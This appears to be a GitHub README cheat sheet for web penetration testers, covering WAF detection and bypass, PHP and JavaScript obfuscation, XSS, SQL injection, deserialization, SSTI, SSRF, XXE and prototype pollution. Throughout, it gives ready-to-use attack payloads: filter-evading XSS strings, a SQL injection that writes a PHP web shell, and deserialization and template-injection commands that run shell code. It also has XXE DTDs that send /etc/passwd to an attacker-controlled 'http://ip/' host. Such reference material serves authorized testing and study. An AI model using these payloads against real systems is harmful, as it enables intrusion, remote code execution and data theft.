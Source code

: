 # Tricks - Web Penetration Tester

- [x] In Construction... (85%)

## WAF

### Manual Detection:

-> Cookies

-> Response messages

-> HTTP status Code's

-> Rules

## Host Obfuscation

#### Types

-> DWORD
  
-> OCTAL 
  
-> HEX
  
-> HYBRID

### Tool

https://www.silisoftware.com/tools/ipconverter.php

### Response - Status code WAF'S

-> mod_security -> 406 Not Acceptable

-> AQTRONIX WebKnight -> 999 No hacking

### Tool's

-> wafw00f 

https://github.com/EnableSecurity/wafw00f

-> nmap --script=http-waf-fingerprint

https://nmap.org/nsedoc/scripts/http-waf-fingerprint.html

-> imperva-detect

https://raw.githubusercontent.com/vmfae-iscteiulpt/imperva-detect/master/imperva-detect.sh

-> bypass to find real ip in CloudFlare:

https://github.com/zidansec/CloudPeler

#### Others

https://github.com/0xInfection/Awesome-WAF

## PHP Obfuscation Techniques:

### Mix - Hex + Octal

echo "t\x72\x69\143\153s";

//Tricks

### Variable Parsing

$a = "ri"; $b ="ck"; echo "T$a[0]$a[1]$b[0]$b[1]s";

//Tricks

### Variable Variables

$a = "T"; $$a = "ri"; $$$a = "cks"; echo $a.$T.$ri;

//Tricks

### PHP Non-Alphanumeric 

$\_="{"; #XOR char

echo $\_=($\_^"<").($\_^">").($\_^"/"); #XOR = GET

//GET

https://web.archive.org/web/20160516145602/http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/

### Tools

-> phponalpha

-> phponalpha2

https://hackvertor.co.uk/public

### PHP Obfuscation - base64+gzdeflate

codes/obufscation/obfuscation.php

## Cross-Site Scripting (Reflected, Stored, DOM, Mutation, Poliglote)

### Protection XSS

-> XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/

https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass

https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/

https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex blacklist filtering

(on\w+\s*=)

<svc/onload=alert(1)>

<svg//////onload=alert(1)>

<svg id=x;onload=alert(1)>
  
<svg id=\`x\`onload=alert(1)>
  
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
  
<svg onload%09=alert(1)>
  
<svg %09onload=alert(1)>
  
<svg %09onload%20=alert(1)>
  
<svg onload%09%20%28%2C%3B=alert(1)>
  
<svg onload%0B=alert(1)>

### Keyword based in filter
 
#### blocked - alert - bypass
  
-> <script>\u0061lert(1)</script>
  
-> <script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  
-> <script>eval("\u0061lert(1)")</script>
  
-> <script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script> 
  
#### Removing HTML Tags
  
<scr<iframe>ipt>alert(1)</script>
  
### Scaping Quote
  
### Methods
  
-> String.fromCharCode()
  
-> unescape

Ex:
 
-> decode URI + unescape method
  
decodeURI(/alert(%22xss%22)/.source)
  
decodeURIComponent(/alert(%22xss%22)/.source)
  
Add execution sink for execution:
  
-> eval
  
### Escaping Parentheses
  
\<img src=x onerror="\u0061lert(1)"/>
  
\<img src=x onerror="eval('\141lert(1)')"/>

\<img src=x onerror="eval('\x61lert(1)')"/>
  
### Others Examples
  
#### HTML Tag
  
<div>
  
here
  
</div>

-> <svg/onload=alert(1)

#### HTML Tag Attributes

<input value="here"/></input>
 
-> adaa"> <a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">show</!--
  
#### Script Tag
  
<script>
  
var name="here";
  
</div>
  
</script>
  
-> ;alert(1);//

#### Event Attributes

\<button onclick="reserve(here);">
  
Okay!
  
</button>

-> alert(1)

Dom Based
  
\<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
  
-> javascript:alert(1)

## JavaScript Encoding and Compressor:

-> jjencode

https://utf-8.jp/public/jjencode.html

-> aaencode

https://utf-8.jp/public/aaencode.html

-> jsfuck

https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

-> Minifying

https://developers.google.com/closure/compiler/

-> Packer 

http://dean.edwards.name/packer/

## Type Juggling

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### PHP - others tricks

[ eval () execute a chain whose variable $ HTTP_USER_AGENT is so just
change your header in PHP code ]

https://www.exploit-db.com/papers/13694

## Insecure Deserialization 

-> Binary

-> human readable

### PHP Deserialization

#### PHP - Method Serialization:

-> serialize()

-> unserialize()

#### Magic Methods:

-> __construct()

-> __destruct()

-> __wakUp()

#### Class Properties

Public \<s>
 
Ex:

O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}
  
Protected \0 * \0

Ex:

O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

Private \0 \<s> \0

Ex:
  
O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

codes/deserialization/example.php
  
#### Trick Bypass

a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}
  
### .NET Deserialization

#### Methods Serialization:

-> Binary Formatter

-> DataContractSerializer

-> NetDataContractSerializer

-> XML Serialization
  
#### Most common places to find serialized data

-> VIEWSTATE
    
-> .NET remoting services
  
#### Tool

https://github.com/pwntester/ysoserial.net

### Java Deserialization

#### Identify

-> import java.io.serializable

-> binary with ac ed 00 05

-> base64 starts with rO0AB in web applications
  
#### java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}

https://www.bugku.net/runtime-exec-payloads/

### Tools

https://github.com/frohoff/ysoserial

https://github.com/NickstaDB/SerializationDumper

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
### Script
  
codes/deserialization/java/gserial.sh
  
codes/deserialization/java/payload.txt
  
while read payload; 
  
do echo "$payload\n\n"; 
  
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser; 
  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
                                                                         
#### Bad Sign

-> ClassNot FoundException

#### Good Sign

-> java.io.IOException

## Cloud

http://169.254.169.254/latest/meta-data

http://169.254.169.254/latest/api/token

### Serverless Injection

echo "hi" > ok.txt && aws s3 cp ok.txt 's3://<BUCKET>/' -acl -public-read
  
### Tools

https://github.com/clarketm/s3recon
  
## XPATH
  
error()

* and doc('http://hacker.site/')
  
* and doc('http://hacker.site/', name(/*) ))
  
### Tools
  
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass

https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
  
## Padding Oracle Attack
  
### Identify

-> rememberMe: (Cookie)

### Exploiting 

java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class

https://github.com/frohoff/ysoserial

python shiro_exp.py site.com/home.jsp cookie payload.class

https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
  
## Hash Length Extension Attack

https://github.com/iagox86/hash_extender

https://site.com/index.php?file=oktest&hash=hash

./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out

burp intruder -> payloads.out in file parameter.  
  
## Insecure - Machine Key for RCE 

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md
  
https://github.com/pwntester/ysoserial.net
  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper
  
### Others Docs

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Local File Inclusion - LFI

### LFI - files for fuzzing

### Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

### Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

### Payloads for bypass:

-> bypass_lfi.txt
  
### Wordlist for parameter fuzzing
  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
  
### Wordlist for subdomain fuzzing
  
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

## SQL Injection
  
### WAF BYPASS

#### Query default:

'UNION SELECT 1, name,3,4 from users; -- -

#### Add comment /* */ for space bypass

'UNION/\*\*/SELECT/\*\*/1,name,3,4/**/from/**/users; -- -

#### Add comment /\*!\*/ in query for filters bypass

'/\*!UNION SELECT\*/ 1,group_concat(name),3,4 from users; -- -

#### Add random case

'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -

#### Example of mix:

'/\*!UnIoN/\*\*/SeLeCt/\*\*/\*/1,GroUp_ConCat(nAmE),3,4/\*\*/FrOm/\*\*/users; -- -

#### Others Techniques:

-> urlencode (example:%20 instead of space);
  
-> Scientifc Notation;
  
-> hexadecimal, substr, etc...
  
### Webshell via SQLI
  
' union select 1, 2, 3,"<\?php system($_GET['cmd']);\?>" into outfile "/var/www/html/pdp.php"-- -
  
### SQL Injection Second-Order (query connector)

codes/sqli_second_order/sqlitwo.php

### SQL Injection Out-Of-Band, etc

https://book.hacktricks.xyz/pentesting-web/sql-injection
  
### Tamper's SQLMAP
  
-> randomcase.py
  
-> order2ascii.py

-> xforwardedfor.py
 
### XPATH NOTATION
  
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
  
### Wordlist for SQL Injection - Bypass

https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass

https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md
  
## NOSQL Injection
  
https://book.hacktricks.xyz/pentesting-web/nosql-injection
  
## Graphql Introspection

https://ivangoncharov.github.io/graphql-voyager/
  
## CSRF

codes/csrf/csrf.html
  
codes/csrf/csrf_json.html
  
codes/csrf/csrf_json_xhr.html
  
codes/csrf/csrf_token_bypass.html

### Analyze the token and perform brute-force

burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens

cat tokens.txt | uniq -c | nl 
  
## SSTI

### Identify

-> Jinja2 or Twig
  
{{3*3}}

-> Smarty or Mako
  
{3*3}

-> ERB(Ruby)
  
<%= 7*7 %>

-> FreeMarker
  
#{3*3}

-> Others 
    
${3*3}
  
${{3*3}}

3*3

### Java Expression Language

{{T(java.lang.Runtime).getRuntime().exec('id')}}

''.class.forName('java.lang.Runtime').getRuntime().exec('id')

### FreeMarker

\<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

### Doc for SSTI	

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.

-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.

curl "gopher://localhost:port"

### Scripts

codes/ssrf_protocol_smuggling/memcached.py

codes/ssrf_protocol_smuggling/zabbix.py

### Tool's

-> Gopher Protocol

https://datatracker.ietf.org/doc/html/rfc1436

-> Gopherus

https://github.com/tarunkant/Gopherus
  
### Scripts

codes/ssrf_protocol_smuggling/zabbix.py
  
codes/ssrf_protocol_smuggling/memcached.py
  
-> stats items
  
-> stats cachedump <slab class> <number of items to dump>
  
-> get <item>
  
### Doc for SSRF - bhack

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
  
## CRLF Injection
  
/%0D%%0ALocation

## XXE OOB
  
### XXE OOB - Exfiltrate data exfiltrating data via dtd

-> Part 1

\<!DOCTYPE r[

\<!ELEMENT r ANY>

\<!ENTITY % ult SYSTEM "http://ip/evil.dtd">

%ult;

%param1;

]>

<r>&exfil;</r>

-> Part 2
  
codes/xxe/evil.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.dtd
  
\<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
  
\<!ENTITY % param1 "\<!ENTITY exfil SYSTEM 'http://ip/?leak=%file;'>">
  
### XXE OOB to retrieve data via error messages with dtd file
  
codes/xxe/error.dtd

-> Part 1

\<!DOCTYPE foo [

\<!ENTITY % xxe SYSTEM "https://ip/evil.dtd"> 

%xxe;

%payload;

%remote;

]>

-> Part 2

\<!ENTITY % file SYSTEM "file:///etc/passwd">

\<!ENTITY % payload "\<!ENTITY &#37; remote SYSTEM 'file:///idonotexist/%file;'>">
  
### XXE OOB - XInclude to retrieve files with dtd file

\<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>\</foo>

### XXE OOB - Image file upload

code/xxe/evil.svg

\<?xml version="1.0" standalone="yes"?>\<!DOCTYPE test [ \<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\<text font-size="16" x="0" y="16">&xxe;\</text>\</svg>

## XSLT Server Side Injection
  
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations

## Prototype Pollution

### Client Side
  
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side

-> exec.exec in req body with lodash - application/json
  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback

"__proto__":{
  
  "shell":"sleep 5"
  
}
  
-> exec.fork in req body with lodash - application/json
  
https://nodejs.org/api/process.html
  
"__proto__":{
  
    "execPath":"/bin/bash",
  
    "execArgv":[
  
    "-c",
  
    "sleep 5"
  
    ]
  
  }
  
## Others tool's and things
  
### ImageTragik

codes/rce/tragik.jpg

### Search across a half million git repos
  
https://grep.app
  
### The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  
https://gchq.github.io/CyberChef/
  
### List of file signatures
  
https://en.wikipedia.org/wiki/List_of_file_signatures

### Regex 
  
https://regex101.com/
  
### Decode
  
https://malwaredecoder.com/

### Encode for SQL Injection in Json
  
https://dencode.com/string/unicode-escape
  
### Wildcard DNS

https://nip.io/
  
### Explain Shell

https://explainshell.com/
  
### Webhook online
  
https://webhook.site/#!/b3d5ed21-b58d-4a77-b19d-b7cdc2eeadc0
  
### Reverse Shell
  
https://www.revshells.com/
 
### Api Security

https://platform.42crunch.com/
